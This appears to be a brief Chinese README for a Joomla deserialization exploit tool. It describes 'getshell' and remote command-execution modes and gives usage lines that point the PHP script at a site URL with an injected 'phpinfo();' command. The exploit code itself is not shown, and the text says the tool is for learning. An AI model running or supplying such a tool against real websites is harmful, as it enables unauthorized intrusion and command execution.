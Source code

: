 
#joomla 反序列化漏洞 getshell&amp;&amp;命令执行
--------------- Joomla 反序列化漏洞利用工具---------------

    1.记得命令后头加分号，命令用单引号括起来。       
    2.getshell因为种种原因不稳定，建议手工。          
    3.仅供学习php代码使用         

Usage:

`
php joomla.php http://xatusec.org getshell
`

`
php joomla.php http://xatusec.org command 'phpinfo();'
`

-------------------Powered by Whirlwind-------------------
